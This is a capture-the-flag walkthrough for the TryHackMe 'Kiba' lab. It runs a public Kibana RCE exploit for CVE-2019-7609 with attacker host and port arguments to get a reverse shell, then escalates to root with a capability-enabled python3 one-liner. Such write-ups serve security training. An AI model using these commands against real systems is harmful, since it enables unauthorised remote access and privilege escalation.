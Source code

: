 # Kiba
https://tryhackme.com/room/kiba

#### Nmap

    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    | 2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
    |   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
    |_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

and we got another port thats 5601 kibana 

searching google for kibana rce exploit and got this one 
https://github.com/mpgn/CVE-2019-7609

    wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/master/CVE-2019-7609-kibana-rce.py

then run this

    pyhton CVE-2019-7609-kibana-rce.py -u http://10.10.188.47:5601 -host <your vpn> -port 1234 --shell

kabooom we got reverse shell.....

    cat /home/kiba/user.txt

thennnn go for privesc using Capabilities 

### what is Capabilities 

Linux divides these privileges into distinct units, known as capabilities. These capabilities can be added to an executable, which will give any user running that executable the specific superuser privilege defined by the capability

    ls -la

In kiba we have got dir like

    .hackmeplease

then cd to the dir we got python3 ahhh this is executable to capabilities

then searching into google like 

#### Exploiting capability using python3

Assuming an intruder has compromised the host machine as local user and spawn the least privilege shell and he looked for system capabilities and found empty capability (ep) over suid is given python3 for user demo that means all privilege is assigned to user for that program, therefore taking advantage of this permission he can escalate into high privilege from low privilege shell.

    getcap -r / 2>/dev/null
    cd .hackmeplease
    ls -al python3
    ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    id
    cat /root/root.txt

Booomm root.....

